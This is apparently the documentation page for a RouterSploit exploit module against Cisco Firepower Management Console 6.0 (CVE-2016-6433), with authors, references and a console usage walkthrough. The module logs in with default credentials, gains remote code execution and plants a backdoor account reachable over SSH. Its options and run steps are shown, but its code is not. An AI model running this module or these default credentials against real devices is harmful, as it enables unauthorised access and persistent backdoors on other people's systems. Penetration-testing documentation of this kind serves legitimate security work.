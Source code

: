 # Cisco Firepower Management 6.0 RCE

## Description
Module exploits Cisco Firepower Management 6.0 Remote Code Execution vulnerability.If the target is vulnerable, it is create backdoor account and authenticate through SSH service.

## Authors
* Matt # vulnerability discovery
* sinn3r # metasploit module
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6433](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6433)
* [https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking](https://blog.korelogic.com/blog/2016/10/10/virtual_appliance_spelunking)

## Vulnerable devices
* Cisco Firepower Management Console 6.0

## Usage
```
rsf > use exploits/cisco/firepower_management60_rce
rsf (Cisco Firepower Management 6.0 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address
   port       443                  Target Port


Module options:

   Name            Current settings     Description
   ----            ----------------     -----------
   username        admin                Default username to log in
   newpassword                          New backdoor password (Default: Random)
   password        Admin123             Default password to log in
   newusername                          New backdoor username (Default: Random)


rsf (Cisco Firepower Management 6.0 RCE) > set target https://192.168.1.1
[+] {'target': 'https://192.168.1.1'}
rsf (Cisco Firepower Management 6.0 RCE) > run
[*] Running module...
```
